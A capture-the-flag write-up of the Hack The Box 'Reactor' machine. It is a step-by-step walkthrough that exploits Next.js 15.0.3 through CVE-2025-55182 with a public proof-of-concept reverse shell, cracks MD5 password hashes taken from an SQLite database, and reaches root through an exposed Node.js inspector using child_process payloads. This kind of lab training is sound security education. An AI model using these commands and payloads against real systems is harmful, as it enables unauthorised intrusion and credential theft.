








<h1>HTB: Reactor</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Reactor)      |
| Difficulty | Easy                                                             |
| OS         | Linux                                                            |
| Author     | ByteFragment                                                     |
| Date       | May 29th 2026                                                    |

--- 

<h2>Reconnaissance</h2>

Port scanning the target using nmap via the command:

```
sudo nmap -sT -sV -T4 -p- 10.129.6.35 -oN nmap
```

This gave me the open tcp ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results we can see there are two open ports on the machine `22` and `3000`:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
F-Port3000-TCP:V=7.99%I=7%D=5/29%Time=6A1A7471%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,34BC,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Router-S
SF:tate-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch,\x2
SF:0Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:\x201\
SF:r\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.js\r\nC
...
```

Port 22 is running the standard ssh service while 3000 is running some sort of web server.

<h2>Enumeration</h2>
Visiting the target ip at port 3000 we are greeted with the following dashboard:



This dashboard does not require authentication and provides details about the reactor as well as the on-site personel.


`Wappalyzer` reveals that this web application is running `Next.js 15.0.3`



<h2>Exploitation</h2>

`Next 15.0.3` is effected by `CVE-2025-55182` known as `React2Shell` which "is a critical pre-authentication remote code execution (RCE) vulnerability affecting React Server Components, Next.js, and related frameworks. With a CVSS score of 10.0, this vulnerability could allow attackers to execute arbitrary code on vulnerable servers through a single malicious HTTP request." ([Microsoft](https://www.microsoft.com/en-us/security/blog/2025/12/15/defending-against-the-cve-2025-55182-react2shell-vulnerability-in-react-server-components/))


[P3TA](https://p3ta00.github.io/cve-2025-55182-react2shell-rce/) gives an excellent breakdown of the vulnerabilities root cause which I have included below:

```
Root Cause

The vulnerability exists in React’s Flight protocol deserializer:

    Prototype Chain Traversal: Reference syntax $1:__proto__:then allows traversing the prototype chain
    Function Constructor Access: $1:constructor:constructor reaches JavaScript’s Function constructor
    Code Execution: Arbitrary code passed to Function() executes server-side

```

`P3TA` also includes how to manually exploit the vulnerability if you don't want to use their [POC](https://github.com/p3ta00/react2shell-poc) script. 


Before we run the exploit script lets set up our `netcat` listener:

```
nc -lvnp 4444
```

We can then run the script using the command:
```
python3 react2shell-poc.py -t http://10.129.6.35:3000 --revshell --lhost 10.10.15.138 --lport 4444

```



Checking out `netcat` listener we can see that we have a reverse shell!




Listing the files in the current directory we can see that there is a file titled `reactor.db`:

```
node@reactor:/opt/reactor-app$ ls -al
ls -al
total 76
drwxr-xr-x  5 node node  4096 Dec 28 21:05 .
drwxr-xr-x  4 root root  4096 Apr 27 11:26 ..
drwxr-xr-x  2 node node  4096 Dec 28 20:47 app
-rw-r--r--  1 node node   276 Dec 28 21:05 .env
drwxr-xr-x  7 node node  4096 Dec 28 20:47 .next
-rw-r--r--  1 node node   172 Dec 28 20:47 next.config.js
drwxr-xr-x 30 node node  4096 Dec 28 20:47 node_modules
-rw-r--r--  1 node node   269 Dec 28 20:47 package.json
-rw-r--r--  1 node node 29329 Dec 28 20:47 package-lock.json
-rw-r-----  1 node node 12288 Dec 28 21:03 reactor.db
```

Running the `file` command we can see that it is an `SQLite 3.x database`:

```
node@reactor:/opt/reactor-app$ file reactor.db
file reactor.db
reactor.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 7, database pages 3, cookie 0x2, schema 4, UTF-8, version-valid-for 7
```

Thus we can use the `sqlite3` command to connect and enumerate the database:

```
.tables
sensor_logs  users      
SELECT * FROM pragma_table_info('users');
0|id|INTEGER|0||1
1|username|TEXT|1||0
2|password_hash|TEXT|1||0
3|role|TEXT|1||0
4|email|TEXT|0||0
SELECT * FROM users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
```

Doing so we see that there are two usernames along with their password hashes present in the database.

admin - a203b22191d744a4e70ada5c101b17b8
engineer - 39d97110eafe2a9a68639812cd271e8e

Lets try and crack these password hashes!

The `hashid` tool identifies that these are likely `md5` hashes:

```
hashid hash.txt                                                                                              
--File 'hash.txt'--
Analyzing 'a203b22191d744a4e70ada5c101b17b8'
[+] MD2 
[+] MD5 
...
Analyzing '39d97110eafe2a9a68639812cd271e8e'
[+] MD2 
[+] MD5 

```

To crack the hashes we will use the `johntheripper` password cracking tool:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-MD5
```

Once the command completes we can see we cracked the password hash of the user `engineer`!

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
********         (?)     
```

If we look back at our nmap scan we can see that there is an ssh service running so lets try to use our new found credentials `engineer:********` to ssh into the target machine.

Success! We are able to ssh into the target machine!



Listing the contents of the current directory we see the user.txt file which contains the user flag!

<h2>Privilege Escalation</h2>

Listing the local open ports using the command:

```
ss -tunlp
```

We see that the local port 9229 is listening for connections:



Port [9229](https://portlookup.com/port-9229/) is the standard port for NodeJS debugging.

Listing the running processes we can see that the `node` process is running as root using the --inspect flag:



Lets set up an ssh port forward:
```
ssh -L 9229:127.0.0.1:9229 engineer@10.129.6.35
```

Once the port forward has been established we can connect to the node.js instance:
```
node inspect 127.0.0.1:9229           
connecting to 127.0.0.1:9229 ... ok
debug> 
```

[HackTricks] has a good page on exploiting the debugger / inspector.

Using the command:
```
exec("process.mainModule.require('child_process').execSync('id').toString()")
```

We can confirm that the process is running as `root` and that we can execute commands!

```
debug> exec("process.mainModule.require('child_process').execSync('id').toString()")
'uid=0(root) gid=0(root) groups=0(root)\n'
debug> 
```

With the ability to run arbitrary commands as root we can establish another reverse shell but this time as the root user. 

We can also obtain the flag using the command:

```
exec("process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()")
```

With that we have both the user and root flags and the challenge is solved!


